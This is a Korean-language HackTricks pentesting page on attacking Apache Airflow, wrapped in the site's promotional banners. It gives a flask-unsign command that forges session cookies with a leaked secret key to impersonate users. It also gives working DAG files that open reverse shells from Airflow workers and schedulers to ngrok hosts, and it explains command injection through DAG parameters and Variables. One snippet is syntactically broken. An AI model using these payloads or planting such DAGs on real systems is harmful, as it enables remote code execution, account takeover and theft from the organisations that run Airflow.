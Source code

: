 # Apache Airflow 보안

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약**하기 위한 플랫폼으로 사용됩니다. 데이터 파이프라인의 "조정"이란 다양한 소스에서 발생하는 복잡한 데이터 워크플로우를 정리, 조정 및 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리된 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델을 포함한 다양한 응용 프로그램에서 광범위하게 활용되며, 이는 대규모 데이터 응용 프로그램의 기능에 기초합니다.

기본적으로, Apache Airflow를 사용하면 **무언가** (이벤트, cron) **발생 시 코드 실행을 예약**할 수 있습니다.

## 로컬 랩

### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)의 **docker-compose 구성 파일**을 사용하여 완전한 Apache Airflow 도커 환경을 시작할 수 있습니다. (MacOS에서는 도커 VM에 적어도 6GB의 RAM을 할당해야 합니다).

### Minikube

Apache Airflow를 실행하는 **간단한 방법** 중 하나는 **minikube**를 사용하여 실행하는 것입니다:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 구성

Airflow는 구성에 **민감한 정보**를 저장할 수 있으며, 약한 구성을 찾을 수도 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow를 공격하기 전에 **권한이 작동하는 방식**을 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 공격

### 웹 콘솔 열거

웹 콘솔에 **접근할 수 있다면**, 다음 정보 중 일부 또는 모두에 접근할 수 있습니다:

* **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있음)
* **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있음)
* `http://<airflow>/connection/list/`에서 접근 가능
* [**구성**](./#airflow-configuration) (비밀 키 및 비밀번호와 같은 민감한 정보가 저장될 수 있음)
* 사용자 및 역할 목록
* 각 DAG의 **코드** (흥미로운 정보가 포함될 수 있음)

### 변수 값 검색

Airflow에서는 DAG가 값을 **액세스**할 수 있도록 변수를 저장할 수 있습니다. 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 GUI에서 `http://<airflow>/variable/list/`에서 변수에 액세스할 수 있습니다.\
기본적으로 Airflow는 GUI에서 변수의 값을 표시하지만, [**이 글**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 GUI에서 **별표**로 표시될 **값**의 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (79).png>)

그러나 이러한 **값**은 여전히 **CLI**(DB 액세스 필요), **임의의 DAG** 실행, 변수 엔드포인트에 **API**(API를 활성화해야 함)로 **검색**할 수 있으며, 심지어 **GUI 자체에서도!**\
GUI에서 이러한 값을 액세스하려면 액세스하려는 **변수를 선택**하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**을 **무차별 대입**하여 찾는 것입니다:

![](<../../.gitbook/assets/image (30).png>)

### 권한 상승

**`expose_config`** 구성이 **True**로 설정된 경우, **사용자 역할** 및 **그 이상**에서는 **웹에서 구성을 읽을 수** 있습니다. 이 구성에는 **`secret_key`**가 표시되므로 이 유효한 키를 가진 사용자는 **자신의 서명된 쿠키를 생성하여 다른 사용자 계정을 가장**할 수 있습니다.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG 백도어 (Airflow 워커에서의 RCE)

만약 **DAG가 저장되는 곳에 쓰기 권한**이 있다면, **하나를 생성**하여 **리버스 쉘을 보낼 수 있습니다.**\
이 리버스 쉘은 **airflow 워커 컨테이너** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 백도어 (Airflow 스케줄러에서의 RCE)

만약 **코드의 루트에서 실행되도록 설정**한다면, 현재 작성 시점에서는 DAG 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**될 것입니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 생성

DAG 클러스터 내부의 기기를 **침해**하면 `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이는 DAG 클러스터 내의 다른 기기에도 **복제**됩니다.

### DAG 코드 삽입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 올바르게 작성되지 않은 경우 **Command Injection에 취약**할 수 있습니다.\
이것이 이 CVE에서 발생한 사례입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG에서 **Command Injection을 찾기 시작**하기 위해 알아야 할 것은 **매개변수**가 **다음 코드로 액세스**된다는 것입니다: **`dag_run.conf.get("param_name")`**.

또한, **변수**에서도 동일한 취약점이 발생할 수 있습니다 (충분한 권한이 있다면 GUI에서 변수의 값을 **제어**할 수 있음에 유의하세요). 변수는 다음과 같이 **액세스**됩니다:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
예를 들어, 그들이 bash 명령어 안에서 사용된다면, 명령어 인젝션을 수행할 수 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법들:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
